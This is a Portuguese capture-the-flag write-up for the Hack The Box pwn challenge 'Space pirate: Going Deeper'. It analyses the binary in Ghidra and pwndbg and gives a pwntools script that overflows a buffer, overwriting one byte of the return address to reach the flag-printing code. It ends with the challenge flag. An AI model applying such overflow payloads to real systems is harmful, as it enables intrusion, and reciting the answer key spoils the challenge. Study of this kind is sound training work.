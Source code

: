 # WriteUp: Space pirate: Going Deeper

## Descrição do Desafio:
**Autor**: [w3th4nds](https://app.hackthebox.com/users/70668) \
**Plataforma**: [Hack The Box](https://app.hackthebox.com/challenges/Space%2520pirate%253A%2520Going%2520Deeper) \
**Categoria**: Pwn \
**Dificuldade**: Muito fácil \
**Data**: 2022 \
**Descrição**:
> We are inside D12! We bypassed the scanning system, and now we are right in front of the Admin Panel. The problem is that there are some safety mechanisms enabled so that not everyone can access the admin panel and become the user right below Draeger. Only a few of his intergalactic team members have access there, and they are the mutants that Draeger trusts. Can you disable the mechanisms and take control of the Admin Panel?

## Passo a Passo da Solução
### 1. Análise do executável fornecido
Este desafio não fornece o código-fonte, dessa forma, a análise deve ser feita diretamente pelo executável, analisando sua execução e assembly.

Rodando o executável temos uma leve noção do que está acontecendo. Nele é imprimido uma interface que nos mostra o histórico de comandos, e em seguida mostra 3 escolhas:

1. Desabilitar mecanismos.
2. Entrar.
3. Sair.

Após selecionar uma das opções, excluindo a terceira, podemos inserir algum texto. Mas em ambos os casos a saída é:

```bash
[-] Authentication failed!

[!] For security reasons, you are logged out..
```

Neste ponto, sobra analisar o assembly, no caso pelo **Ghidra**, para entender mais sobre o que está acontecendo.

Logo de início já podemos identificar a função `main()`, que define algumas variáveis de execução chamando a função `setup()`, e depois imprime a interface chamando a função `banner()`. Por fim é chamada a função `admin_panel(1,2,3)` que realiza toda a lógica da entrada do usuário. 

{% code title="main" overflow="wrap" lineNumbers="true" %}
```c
undefined8 main(void)

{
  setup();
  banner();
  puts("\x1b[1;34m");
  admin_panel(1,2,3);
  return 0;
}

```
{% endcode %}

Analisando a função `admin_panel()`, vemos muitas coisas interessantes:
- Não importa se foi selecionado 1 ou 2 no início, o código que continua é o mesmo nas duas opções. A terceira opção encerra a execução.
- No *input* que fazemos após inserir a opção, é possível realizar um `buffer overflow` de 17 caracteres.
- A **flag** é impressa caso os parâmetros sejam iguais a `0xdeadbeef`, `0x1337c0de`, e `0x1337beef`. E o *input* contenha `DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft`.

{% code title="admin_panel" overflow="wrap" lineNumbers="true" %}
```c
void admin_panel(long param_1,long param_2,long param_3)

{
  int iVar1;
  char local_38 [40];
  long local_10;
  
  local_10 = 0;
  printf("[*] Safety mechanisms are enabled!\n[*] Values are set to: a = [%x], b = [%ld], c = [%ld]. \n[*] If you want to continue, disable the mechanism or login as admin.\n"
         ,param_1,param_2,param_3);
  while (((local_10 != 1 && (local_10 != 2)) && (local_10 != 3))) {
    printf(&DAT_004014e8);
    local_10 = read_num();
  }
  if (local_10 == 1) {
    printf("\n[*] Input: ");
  }
  else {
    if (local_10 != 2) {
      puts("\n[!] Exiting..\n");
                    /* WARNING: Subroutine does not return */
      exit(0x1b39);
    }
    printf("\n[*] Username: ");
  }
                    /* Buffer Overflow */
  read(0,local_38,57);
  if (((param_1 == 0xdeadbeef) && (param_2 == 0x1337c0de)) && (param_3 == 0x1337beef)) {
    iVar1 = strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft",local_38,52);
    if (iVar1 != 0) {
      printf("\n%s[+] Welcome admin! The secret message is: ",&DAT_00400c38);
      system("cat flag*");
      goto LAB_00400b38;
    }
  }
  printf("\n%s[-] Authentication failed!\n",&DAT_00400c40);
LAB_00400b38:
  puts("\n[!] For security reasons, you are logged out..\n");
  return;
}

```
{% endcode %}

O que este código deixa a entender é que devemos causar um estouro no *buffer*, colocando o valor `DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft` nele, e depois sobrescrevendo o valor dos parâmetros passados. Porém, este executável está na arquitetura **64-bits**, então os parâmetros são passados por meio dos registradores, e 17 caracteres a mais não seria o suficiente para escrever a *string* e sobrescrever os parâmetros.

{% hint style="info" %}
**Nota:** É possível observar que mesmo sendo arquitetura **64-bits**, os parâmetros são colocados na pilha no início do assembly da função. Porém, eles são colocados antes do *buffer*, dessa forma é impossível sobrescrever eles estourando o *buffer*.
{% endhint %}

### 2. Solução
Após descobrir que não era possível sobrescrever os parâmetros, eu estourei o *buffer* com os 57 caracteres sendo "A", para ver se algo interessante acontecia. Nisso, eu reparei algo interessante pelo **pwndbg**, o endereço de retorno mudou um pouco.

Antes do *input*:
```bash
 ► 0         0x400aba admin_panel+209
   1         0x400b94 main+77
```
Após o *input*:
```bash
 ► 0         0x400abf admin_panel+214
   1         0x400b41 admin_panel+344
```

O endereço de retorno é sobrescrevido por 1 *byte*, como podemos ver antes era `0x400b94` e depois passou a ser `0x400b41`, sendo que `0x41` é o hexadecimal para o caractere "A".

Dessa forma, a solução é sobrescrever esse 1 *byte* de forma que a função `admin_panel()` retorne para a instrução dela que imprime a **flag**. Isso só é possível caso essa instrução comece com `0x400b` e por sorte ela começa.

{% code title="assembly" overflow="wrap" lineNumbers="true" %}
```asm
        00400afa 48 8d 35        LEA        RSI,[DAT_00400c38]                               = 1Bh
                 37 01 00 00
        00400b01 48 8d 3d        LEA        RDI,[s_%s[+]_Welcome_admin!_The_secret_m_00401   = "\n%s[+] Welcome admin! The se
                 88 0a 00 00
        00400b08 b8 00 00        MOV        EAX,0x0
                 00 00
        00400b0d e8 fe fb        CALL       <EXTERNAL>::printf                               int printf(char * __format, ...)
                 ff ff
        00400b12 48 8d 3d        LEA        RDI,[s_cat_flag*_004015be]                       = "cat flag*"
                 a5 0a 00 00
        00400b19 e8 e2 fb        CALL       <EXTERNAL>::system                               int system(char * __command)
                 ff ff

```
{% endcode %}

Então, a solução nada mais é do que inserir 56 caracteres quaisquers, e depois inserir o hexadecimal `0x12`.

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

elf = context.binary = ELF("./sp_going_deeper")
p = remote("ip", porta)
#p = process()

p.sendlineafter(b">> ", b"1")

payload = b"A" * 56 + chr(0x12).encode()
p.sendlineafter(b"Input: ", payload)

print(p.recvall().decode())
```

{% endcode %}

### Flag
`HTB{d1g_1n51d3..u_Cry_cry_cry}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
